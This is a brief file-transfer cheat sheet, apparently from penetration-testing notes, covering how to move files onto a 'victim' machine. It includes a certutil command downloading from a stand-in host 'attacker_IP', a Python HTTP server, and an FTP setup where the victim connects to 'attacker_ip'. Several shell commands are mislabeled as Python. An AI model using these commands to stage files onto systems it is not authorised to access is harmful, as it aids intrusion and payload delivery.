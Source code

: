 1. Certutil
```python
certutil.exe -urlcache -f http://attacker_IP/file.txt file.txt
```

2. HTTP
```python
python -m SimpleHTTPServer 80
```

3. Browser
Navigate directly to file.

4. FTP
In attacker machine - 
```python
python -m pyftpdlib 21
```

In victim machine - 
```python
ftp attacker_ip
```

5. Linux
```python
wget
```
